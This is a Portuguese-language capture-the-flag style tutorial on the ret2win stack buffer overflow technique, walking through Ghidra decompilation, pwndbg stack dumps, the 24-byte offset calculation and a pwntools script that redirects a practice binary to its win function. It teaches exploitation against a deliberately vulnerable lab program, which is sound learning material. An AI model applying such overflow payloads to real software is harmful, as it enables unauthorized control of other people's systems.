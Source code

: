# RET2WIN
## Autor: Henri

## O que é Ret2Win
Ret2win é um exploit que envolve a pilha (stack), de forma que nós reescrevemos os valores armazenados nela para alterarmos o endereço de retorno para uma função win (por isso o nome ret2win).
Mas como isso funciona? Bom, quando chamamos uma função o endereço da próxima instrução é salvo na pilha (`rsp` armazena esse endereço), e no início de toda função nós temos uma sequência de código em assembly que são conhecidos como prólogo da função. Eles são o `push rbp` que salva na pilha o conteúdo de `rbp`, e o `mov rbp, rsp` que faz o `rbp` ser igual ao `rsp`, essas duas instruções basicamente criam um novo segmento de pilha para aquela função. Agora que toda a pilha para a função está criada, ela começa a alocar espaço para as variáveis (se houver) subtraindo o valor de `rsp` pelo tamanho da variável (note que a pilha cresce de cima para baixo). Com tudo isso feito, se nós conseguirmos fazer uma veriável armazenar um valor maior que o seu tamanho, nós na verdade começaremos a sobrescrever todos os valores que já estavam na pilha, e o objetivo é fazer isso até chegarmos no local onde o endereço da instrução foi armazenado, e assim rescrevemos ele para ser o endereço para a função que queremos ir.

## Analisando o código
Normalmente você nunca recebe um arquivo de código para que você simplesmente olhe diretamente para ele e veja as vulnerabilidades, você geralmente vai receber um arquivo executável (na maioria dos casos .ELF). Para nós vermos o código é necessário usar alguma ferramenta que desmonte o executável em seu código assembly, e aqui nós usaremos duas ferramentas: o Ghidra que consegue mostrar o código assembly compilado para C ou C++, e também permite uma fácil visualização de todo o código, e o PwnDbg que também permite uma visualização do código assembly (se você já conhecer o nome das funções), mas usaremos ele principalmente por causa da sua capacidade de debugar.
Bom, abrindo o ELF disponibilizado no Ghidra podemos ter acesso a função `main`:
```c
undefined8 main(void)
{
  vulnFunction();
  return 0;
}
```
Podemos notar que a `main` chama outra função, vamos dar uma olhada nela.
```c
void vulnFunction(void)
{
  undefined local_18 [16];
  
  __isoc99_scanf(&DAT_00102021,local_18);
  printf("Buffer: %s",local_18);
  return;
}
```
Certo, temos uma função que usa o `scanf` para armezar o input do usuário em uma variável de tamanho 16 (vale notar que o scanf não tem limite de leitura, ou seja, podemos estourar o tamanho da variável sem problemas). Já identificamos a possível vulnerabilidade, mas e a função win? Bom temos que olhar no código para termos certeza que ela existe, para fazermos isso é só usar o Ghidra. Seja olhando pela parte principal ou pelo canto (onde mostra as funções), nós facilmente podemos identificar a existência da função `win`:
```c
void win(void)
{
  printf(&DAT_00102004);
  exit(0);
}
```

## Debugando com PwnDbg
Agora que sabemos todas as funções, vamos começar a debugar:
```
pwndbg> disassemble main

Dump of assembler code for function main:
   0x00000000004011a9 <+0>:     push   rbp
   0x00000000004011aa <+1>:     mov    rbp,rsp
   0x00000000004011ad <+4>:     mov    eax,0x0
   0x00000000004011b2 <+9>:     call   0x401168 <vulnFunction>
   0x00000000004011b7 <+14>:    mov    eax,0x0
   0x00000000004011bc <+19>:    pop    rbp
   0x00000000004011bd <+20>:    ret
End of assembler dump.


pwndbg> disassemble vulnFunction

Dump of assembler code for function vulnFunction:
   0x0000000000401168 <+0>:     push   rbp
   0x0000000000401169 <+1>:     mov    rbp,rsp -> Fim do prologo da função
   0x000000000040116c <+4>:     sub    rsp,0x10 -> Criando espaço para a variável
   0x0000000000401170 <+8>:     lea    rax,[rbp-0x10]
   0x0000000000401174 <+12>:    mov    rsi,rax
   0x0000000000401177 <+15>:    lea    rax,[rip+0xea3]        # 0x402021
   0x000000000040117e <+22>:    mov    rdi,rax
   0x0000000000401181 <+25>:    mov    eax,0x0
   0x0000000000401186 <+30>:    call   0x401040 <__isoc99_scanf@plt>
   0x000000000040118b <+35>:    lea    rax,[rbp-0x10]
   0x000000000040118f <+39>:    mov    rsi,rax
   0x0000000000401192 <+42>:    lea    rax,[rip+0xe8b]        # 0x402024
   0x0000000000401199 <+49>:    mov    rdi,rax
   0x000000000040119c <+52>:    mov    eax,0x0
   0x00000000004011a1 <+57>:    call   0x401030 <printf@plt>
   0x00000000004011a6 <+62>:    nop
   0x00000000004011a7 <+63>:    leave
   0x00000000004011a8 <+64>:    ret
End of assembler dump.


pwndbg> break *0x0000000000401168 -> Colocando um breakpoint bem no início da função

Breakpoint 2 at 0x401168

pwndbg> r

-> com esse comando nós rodamos o código e paramos no breakpoint, e podemos ver a pilha dessa forma
00:0000│ rsp 0x7fffffffddd8 —▸ 0x4011b7 (main+14) ◂— mov eax, 0
01:0008│ rbp 0x7fffffffdde0 ◂— 0x1

pwndbg> n -> esse comando avança para a próxima instrução
pwndbg> n

00:0000│ rbp rsp 0x7fffffffddd0 —▸ 0x7fffffffdde0 ◂— 0x1 -> antigo conteúdo de rbp, e rbp = rsp
01:0008│+008     0x7fffffffddd8 —▸ 0x4011b7 (main+14) ◂— mov eax, 0
02:0010│+010     0x7fffffffdde0 ◂— 0x1

pwndbg> c

Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA -> aqui eu simplesmente escrevi muitos caracteres para demonstrar como vai ficar a stack após isso

0x4011a8 <vulnFunction+64>    ret    <0x4141414141414141> -> aqui podemos ver que o endereço de retorno foi reescrito por A

pwndbg> x/100x $rsp -> mostrando a pilha, como podemos ver todos os valores que a gente conhecia foram reescritos.

pwndbg> x/100x $rsp
0x7fffffffddd8: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffdde8: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffddf8: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffde08: 0x41414141      0x41414141      0x41414141      0x00000041
```

## Solução
Esse é o estado da pilha após ela criar espaço para a nossa variável: 
```
00:0000│ rsp 0x7fffffffddc0 ◂— 0x0
01:0008│-008 0x7fffffffddc8 ◂— 0x0
02:0010│ rbp 0x7fffffffddd0 —▸ 0x7fffffffdde0 ◂— 0x1
03:0018│+008 0x7fffffffddd8 —▸ 0x4011b7 (main+14) ◂— mov eax, 0
```
Logo para chegarmos no endereço de retorno, teremos que escrever `24` caracteres (`0x18` -> `0x7fffffffddd8` - `0x7fffffffddc0`). Antes de fazermos um script para isso, nós temos que dar uma olhada na função `win` para acharmos seu endereço:
```
pwndbg> disassemble win

Dump of assembler code for function win:
   0x0000000000401146 <+0>:     push   rbp
   0x0000000000401147 <+1>:     mov    rbp,rsp
   0x000000000040114a <+4>:     lea    rax,[rip+0xeb3]        # 0x402004
   0x0000000000401151 <+11>:    mov    rdi,rax
   0x0000000000401154 <+14>:    mov    eax,0x0
   0x0000000000401159 <+19>:    call   0x401030 <printf@plt>
   0x000000000040115e <+24>:    mov    edi,0x0
   0x0000000000401163 <+29>:    call   0x401050 <exit@plt>
End of assembler dump.

```
Seu endereço é `0x0000000000401146`, vamos para o script:
```p
from pwn import *

p = process('./ret2win')

payload = b'A' * 24
payload += b'\x46\x11\x40\x00\x00\x00\x00\x00'

p.sendline(payload)

print(p.recvuntil(b"?").decode())
#log.info(p.clean())
```
Esse script é bem simples, nós usamos a biblioteca `pwn` que nos permite acessar "programas" por maio do script. Com ela nós abrimos o nosso processo (ret2win), criamos uma mensagem em bytes contendo os 24 caracteres mais o endereço da win (em little endian), e enviamos essa mensagem para o programa. Para pegarmos a mensagem do terminal nós usamos a `p.recvuntil(b"?").decode()`, essa função retorna tudo até o caractere `?`, em um formato de array de bytes, e por isso usamos o `decode()` para traduzir para nós.
O único problema desse script é que a função `recv` da biblioteca `pwn` da pau no programa se ela não encontrar o critério de parada, a outra opção para ela é usar o `log.info()`.

## Resultado
python3 solve.py

[+] Starting local process './ret2win': pid 172829

[*] Process './ret2win' stopped with exit code 0 (pid 172829)

Buffer: AAAAAAAAAAAAAAAAAAAAAAAAF\x11@Ué, como você chegou aqui?

